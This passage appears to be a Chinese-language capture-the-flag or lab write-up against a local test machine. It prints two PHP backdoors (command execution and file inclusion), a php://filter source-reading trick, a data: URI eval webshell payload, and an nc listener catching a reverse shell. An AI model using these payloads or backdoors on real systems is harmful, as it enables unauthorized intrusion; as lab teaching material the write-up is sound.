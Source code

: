 根据提示信息，查看 Parrot 自带的 webshell 文件

```plaintext title="/usr/share/webshells/php"
drwxr-xr-x 1 root root   64  1 月 22 日 03:13 findsocket
-rw-r--r-- 1 root root 2.8K 2021 年 11 月 21 日 php-backdoor.php
-rwxr-xr-x 1 root root 5.4K 2021 年 11 月 21 日 php-reverse-shell.php
-rw-r--r-- 1 root root  14K 2021 年 11 月 21 日 qsd-php-backdoor.php
-rw-r--r-- 1 root root  328 2021 年 11 月 21 日 simple-backdoor.php
```

根据文件列表进行探测，得到以下信息

```plaintext title="http://192.168.56.109/supersecure/simple-backdoor.php?cmd=ls"
mysuperbackdoor.php
simple-backdoor.php
```

经过探测，`simple-backdoor.php` 为命令执行后门，但是可能存在过滤，只允许纯字母 + 数字的指令执行

`mysuperbackdoor.php` 为文件读取的后门，使用 `php://filter/read=convert.base64-encode/resource=` 可以绕过解析读取 php 文件的源码

```php title="simple-backdoor.php"
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        $result = preg_replace("/[^a-zA-Z0-9]+/", "", $cmd);
        system($result);
        echo "</pre>";
        die;
}

?>
```

```php title=""
<?php
include $_REQUEST['file'];
?>
```

借助 php 的 LFI，可以实现 webshell 部署

```plaintext
http://192.168.56.109/supersecure/mysuperbackdoor.php?file=data:text/plain,<?php @eval($_POST['a']) ?>
```

成功实现 webshell 部署，进而反弹 shell

```shell
┌─[✗]─[randark@parrot]─[~/tmp]
└──╼ $nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.109] 58444
whoami
www-data
```
